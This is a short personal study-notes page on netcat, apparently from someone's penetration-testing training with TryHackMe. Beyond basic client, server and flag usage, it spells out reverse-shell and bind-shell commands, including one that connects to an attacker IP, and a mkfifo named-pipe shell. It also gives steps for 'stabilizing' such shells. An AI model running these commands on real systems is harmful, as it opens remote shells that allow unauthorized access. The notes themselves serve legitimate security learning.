 # Using “netcat”

## Start a Client

```bash
nc $HOST $PORT
```

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like the following will establish a reverse shell:

```bash
nc -e /bin/bash $HOST $PORT
```

## Start a Server

```bash
nc -l -p $PORT $HOST
```

The $HOST specification here is optional; if left off, nc binds to 0.0.0.0.

Note that nc will exit once the first connection closes.

(According to the nc docs, it looks like `nc -l $HOST $PORT` should also work, but it doesn’t. I think — though I haven’t been able to verify — that what’s happening here is that `-p` specifies the port to *listen* to, while the port following the $HOST specification is the port to *connect* to.)

## Useful Flags

* `-l` — listen for incoming connections (rather than make an outgoing connection)
* `-v` — verbose
* `-n` — skip DNS resolution (slightly faster, less noisy on the network)
* `-p` specify the port to listen to
* `-u` connect using UDP instead of TCP

## Example Attack Patterns

Example reverse shell:

* Attacker: `nc -lvnp $LISTENER_PORT`
* Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

* Attacker: `nc $TARGET_IP $LISTENER_PORT`
* Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

The `-e` switch isn’t available on many UNIX-like OSes. Working around this leads to the common named pipe pattern:

```bash
mkfifo /tmp/p; nc -lvnp $LISTENER_PORT < /tmp/p | /bin/sh >/tmp/p 2>&1; rm /tmp/p
```

(Note that it’s also possible to reverse the /bin/sh and nc portions of things; what important is that the named pipe lets us loop I/O between the two applications. See [the discussion of msfvenom payloads](metasploit.md) for a detailed breakdown of this pattern.)

Initial netcat reverse shells (in particular web shells) are non-interactive.

### Shell “Stabilization”

Shell “stabilization” refers to the process of making a remote shell behave like a normal local shell — so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc.

A common method of stabilizing netcat shells is to use Python:

* Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
* Suspend the reverse shell.
* Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won't be visible. Trust the force!

You can *mostly* bypass the need for the `stty` command by using `rlwrap`, which sets all of this up for you (though it doesn’t redirect control sequences, so Ctrl+C will still kill the connection).

Or, just fire up [socat](socat.md) from inside of netcat!

NOTE that in *none* of these cases will the reverse shell pick up on your terminal size, so you’ll need to manually specify it using `stty rows` and `stty cols`.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [TryHackMe: CC - Pen Testing](tryhackme-cc-pen-testing.md)
* [TryHackMe: Exploiting Log4j](tryhackme-exploiting-log4j.md)

- - - -

👤 Nathan Acks
